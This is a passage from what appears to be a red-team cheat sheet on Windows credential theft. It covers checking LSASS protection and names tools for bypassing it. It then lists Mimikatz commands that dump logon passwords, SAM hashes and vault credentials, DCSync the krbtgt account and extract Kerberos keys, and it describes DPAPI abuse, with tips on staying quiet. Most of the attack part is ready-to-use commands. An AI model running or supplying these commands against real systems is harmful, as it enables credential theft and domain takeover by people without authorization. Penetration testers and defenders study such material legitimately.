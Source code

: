 #### LSASS protection <a href="#lsass-protection" id="lsass-protection"></a>

Sometimes, LSASS is configured to run as a protected process (PPL). You can query this with PowerShell as follows.

```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL" 
```

PowerShell

If this is the case, you can’t just dump or parse LSASS, and you need to disable the protection with something like `mimidrv.sys`. I won’t discuss how to do that here, but there are tools such as [PPLDump](https://github.com/itm4n/PPLdump) available to help.

#### Dumping OS credentials with Mimikatz <a href="#dumping-os-credentials-with-mimikatz" id="dumping-os-credentials-with-mimikatz"></a>

```
# Dump logon passwords
sekurlsa::logonpasswords

# Dump all domain hashes from a DC
## Note: Everything with /patch is noisy as heck since it writes to LSASS 🚩
lsadump::lsa /patch

# Dump only local users
lsadump::sam

# DCSync (requires 'ldap' SPN)
lsadump::dcsync /user:DOMAIN\krbtgt /domain:targetdomain.com

# Dump Windows secrets, such as stored creds for scheduled tasks (elevate first) 🚩
vault::list
vault::cred /patch

# Dump Kerberos encryption keys, including the AES256 key for better opsec (see 'Lateral Movement with Rubeus' section) 
sekurlsa::ekeys
```

Plaintext

#### Abusing the Data Protection API (DPAPI) with Mimikatz <a href="#abusing-the-data-protection-api-dpapi-with-mimikatz" id="abusing-the-data-protection-api-dpapi-with-mimikatz"></a>

Mimikatz has quite some functionality to access Windows' DPAPI, which is used to encrypt many credentials, including e.g. browser passwords.

Note that Mimikatz will automatically cache the master keys that it has seen (check cache with `dpapi::cache`), but this does _NOT_ work if no Mimikatz session is persisted (e.g. in Cobalt Strike or when using `Invoke-Mimikatz`). More information on using Mimikatz for DPAPI is available [here](https://github.com/gentilkiwi/mimikatz/wiki/howto-\~-credential-manager-saved-credentials).
